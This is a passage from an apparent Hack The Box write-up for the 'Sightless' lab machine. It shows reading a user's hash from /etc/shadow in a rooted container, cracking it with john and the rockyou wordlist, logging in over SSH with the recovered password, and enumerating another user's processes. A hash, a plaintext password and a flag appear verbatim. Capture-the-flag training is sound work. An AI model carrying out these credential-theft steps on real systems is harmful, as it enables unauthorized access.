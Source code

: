 ```terminal
```
As you can see we got a root shell from a container (which we can guest from the random hostname c184118df0a6). 

## User
Always enumerate a bit manually before running heavy tools like linpeas ! In this case another user is present in the container :
```terminal
root@c184118df0a6:/# ls /home
michael  node
root@c184118df0a6:/# ls /home/michael
root@c184118df0a6:/#
```
Well two users, but I assume node is created for sqlpad. Since we are root we can access the hash of michael, in `/etc/shadow` !
```terminal
root@c184118df0a6:/# grep michael /etc/shadow
michael:$6$mG3Cp2VPGY.FDE8u$KVWVIHzqTzhOSYkzJIpFc2EsgmqvPa.q2Z9bLUU6tlBWaEwuxCDEP9UFHIXNUcF2rBnsaFYuJa6DUh/pL2IJD/:19860:0:99999:7:::
```
There are many many tutorials on [how to brute force linux passwords](https://erev0s.com/blog/cracking-etcshadow-john/), and you can even ask chatgpt. Now I'll copy michael's shadow line in a file called `s`, and his passwd line in a file called `p`, then :
```terminal
┌──(samsam㉿pika-pika)-[~/htb/sightless]
└─$ john hash --wordlist=/usr/share/wordlists/rockyou.txt       
Warning: detected hash type "sha512crypt", but the string is also recognized as "HMAC-SHA256"
Use the "--format=HMAC-SHA256" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
No password hashes left to crack (see FAQ)

┌──(samsam㉿pika-pika)-[~/htb/sightless]
└─$ john hash --show                                     
michael:insaneclownposse:1001:1001::/home/michael:/bin/bash

1 password hash cracked, 0 left
```
Since I've already cracked it I had to pass it `--show`, you wont have to do this if it's your first time cracking it.

We can try to connect to the host with these credentials, and it works !
```terminal
┌──(samsam㉿pika-pika)-[~/htb/sightless]
└─$ sshpass -p insaneclownposse ssh michael@sightless.htb
Last login: Tue Sep  3 11:52:02 2024 from 10.10.14.23
michael@sightless:~$ cat user.txt 
b6b1f528799b649e259c3186d2932f4f
```
And boom `user.txt` :)

## John
We are not alone on the box, there is also john in `/home`. We can try to enumerate his processes : 
```terminal
michael@sightless:~$ ls /home
john  michael                                                                                                                                
michael@sightless:~$ ps -u john -o cmd >out && cat out                                                                                       
CMD                                                                                                                                          
/bin/sh -c sleep 110 && /usr/bin/python3 /home/john/automation/administration.py                 
/bin/sh -c sleep 140 && /home/john/automation/healthcheck.sh                                                                                 
```
